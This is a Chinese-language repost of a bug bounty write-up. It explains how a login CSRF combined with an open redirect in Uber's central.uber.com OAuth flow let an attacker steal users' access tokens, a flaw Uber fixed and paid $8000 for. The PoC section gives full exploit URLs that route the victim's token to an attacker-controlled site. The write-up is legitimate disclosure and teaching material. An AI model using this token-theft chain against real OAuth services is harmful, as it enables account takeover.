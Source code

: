 ```yaml
---
layout: post
title:  "【挖洞经验】我如何挖到了一个价值8000美金的Uber漏洞"
title2:  "【挖洞经验】我如何挖到了一个价值8000美金的Uber漏洞"
date:   2017-01-01 23:54:27  +0800
source:  "https://www.jfox.info/%e6%8c%96%e6%b4%9e%e7%bb%8f%e9%aa%8c%e6%88%91%e5%a6%82%e4%bd%95%e6%8c%96%e5%88%b0%e4%ba%86%e4%b8%80%e4%b8%aa%e4%bb%b7%e5%80%bc8000%e7%be%8e%e9%87%91%e7%9a%84uber%e6%bc%8f%e6%b4%9e.html"
fileName:  "20170101167"
lang:  "zh_CN"
published: true
permalink: "2017/https://www.jfox.info/%e6%8c%96%e6%b4%9e%e7%bb%8f%e9%aa%8c%e6%88%91%e5%a6%82%e4%bd%95%e6%8c%96%e5%88%b0%e4%ba%86%e4%b8%80%e4%b8%aa%e4%bb%b7%e5%80%bc8000%e7%be%8e%e9%87%91%e7%9a%84uber%e6%bc%8f%e6%b4%9e.html"
---
```

{% raw %}
[Alpha_h4ck](https://www.jfox.info/go.php?url=http://www.freebuf.com/author/alpha_h4ck)共**1730**人围观 [漏洞](https://www.jfox.info/go.php?url=http://www.freebuf.com/./vuls)
我研究Uber漏洞已经有一段时间了，而这是我第一次发布关于Uber漏洞挖掘的报告，希望可以给大家提供一些有趣的挖洞思路。在这篇文章中，我将会跟大家分享一个我在Uber系统中发现的有趣漏洞（Login CSRF + 开放重定向 -> 账户接管）。 

## 长话短说

这个漏洞存在于Uber的central.uber.com节点，它使用了OAuth 2.0协议作为其登录授权机制，但该节点并没有正确使用CSRF参数，这将导致攻击者能够利用这种错误使用的状态参数来执行开放重定向以及Login CSRF，然后在实现重定向之后窃取URL哈希中的访问令牌。

## central.uber.com的登录流程

首先大家要了解central.uber.com的登录流程（修复前），当用户点击了central.uber.com页面中的登录按钮之后，系统的运行机制和跳转如下：

1.[https://central.uber.com/login?state=/somewhere](https://www.jfox.info/go.php?url=https://central.uber.com/login?state=/somewhere)

2. [https://login.uber.com/oauth/authorize?response_type=code&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2Fsomewhere](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2Fsomewhere)

3. [https://central.uber.com/oauth2-callback?state=%2F&code=it53JtFe6BPGH1arCLxQ6InrT4MXdd](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd)

4. [https://central.uber.com/somewhere](https://www.jfox.info/go.php?url=https://central.uber.com/somewhere)

注:如果你想充分理解这个漏洞的话，你首先必须要清楚该节点所采用的用户登录流程，所以请各位多花点时间好好看看上面给出的跳转链接。

当我看到了整个登录流程之后，我首先想到的攻击方法是将状态参数/somewhere修改为//google.com来实现一次可能的开放重定向。修改之后的登录流程如下：

1.  [https://central.uber.com/login?state=//google.com](https://www.jfox.info/go.php?url=https://central.uber.com/login?state=//google.com)

2.  [https://login.uber.com/oauth/authorize?response_type=code&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2F%2fgoogle.com](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2F%2fgoogle.com)

3.  [https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com&code=it53JtFe6BPGH1arCLxQ6InrT4MXdd](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd)

4.  //google.com 

果然不出我所料，我成功地将这个登录流程变成了一个开放重定向漏洞，但Uber并不接受关于开放重定向漏洞的报告，所以我还得想办法通过这个漏洞找到其他更有意思的漏洞。但不管怎么样，这仍然是一个非常好的开端。

由于Oauth请求使用的是code而并非token，所以即便是我们找到了一个开放重定向漏洞，我们也仍然无法利用它来窃取到任何信息。那如果我们将请求所使用的code转换为token的话，又会发生什么呢？

1.  [https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2F%2fgoogle.com](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=token&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2F%2fgoogle.com)

2.  [https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com#access_token=xxxxx](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com#access_token=xxxxx)

3.  无法实现重定向

由于我们这里没有给[https://central.uber.com/oauth2-callback](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback)提供有效的code值，所以在上述的第2步之后才没能实现重定向。如果无法实现重定向，那我们就没办法窃取到访问令牌了。所以我们得想办法解决这个问题，我们需要一个针对oauth2-callback节点的有效code值。

### Login CSRF

在这种情况下，Login CSRF就要派上用场了。由于这个Uber节点会在重定向时使用 CSRF参数状态，所以我们可以直接将攻击者的有效OAuth code添加到oauth2-callback节点，然后将其发送给目标用户。当用户访问了这条链接之后，就可以被正确地重定向到攻击者所控制的页面并泄露其访问令牌。

### 限制

利用这个漏洞时唯一的要求就是目标用户的浏览器中已经存储了login.uber.com的身份认证会话信息（session）。由于central.uber.com是Uber的官方OAuth客户端，所以每一位Uber用户默认都会接受central.uber.com的请求。

### 概念验证PoC

PoC

    https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3d攻击者的有效OAuth code&state=%2F%2f攻击者控制的站点

PoC登录流程

    
    1.https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3d{攻击者的有效OAuth code}&state=%2F%2f攻击者控制的站点
    
    2.https://central.uber.com/oauth2-callback?state=%2F%2fhackerone.com&code={攻击者的有效OAuth code}#access_token={目标用户的访问令牌}
    
    3.//hackerone.com#accesstoken={目标用户的访问令牌}
    

### 总结

终于搞定啦！我已经将这个漏洞上报给了Uber的安全技术团队，Uber也在确认了漏洞信息之后给我提供了8000美刀的漏洞奖励。

感谢大家的阅读，如果你有什么其他的观点或想法，请赶紧与我联系吧！（@ngalongc）

* 参考来源：ngailong， FB小编Alpha_h4ck编译，转载请注明来自FreeBuf.COM
{% endraw %}